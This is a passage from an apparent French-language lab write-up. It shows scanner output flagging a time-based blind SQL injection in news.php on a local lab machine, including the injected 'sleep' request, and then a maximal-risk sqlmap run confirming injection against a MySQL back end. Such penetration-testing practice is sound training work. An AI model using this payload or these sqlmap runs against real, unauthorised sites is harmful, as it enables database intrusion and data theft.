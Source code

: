 ```console
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---

--- snip ---

[*] Launching module timesql
---
Blind SQL vulnerability in http://192.168.56.102/news.php via injection in the parameter title
Evil request:
    GET /news.php?title=%27%20or%20sleep%2811%29%231 HTTP/1.1
---

```

On enchaîne avec `sqlmap`. On n'oublie pas de mettre les paramètres `level` et `risk` au max pour ne rien rater.

```console
sqlmap -u "http://192.168.56.102/news.php?title=sing" --level 5 --risk 3
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.4#pip}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:33:36

[15:33:36] [INFO] testing connection to the target URL
[15:33:36] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:33:36] [INFO] testing if the target URL content is stable
[15:33:36] [INFO] target URL content is stable
[15:33:36] [INFO] testing if GET parameter 'title' is dynamic
[15:33:36] [INFO] GET parameter 'title' appears to be dynamic
[15:33:36] [WARNING] heuristic (basic) test shows that GET parameter 'title' might not be injectable
[15:33:36] [INFO] testing for SQL injection on GET parameter 'title'
[15:33:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:33:37] [INFO] GET parameter 'title' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="for")
[15:33:37] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
[15:33:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[15:33:41] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[15:33:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[15:33:41] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[15:33:41] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[15:33:41] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[15:33:41] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[15:33:41] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[15:33:41] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
```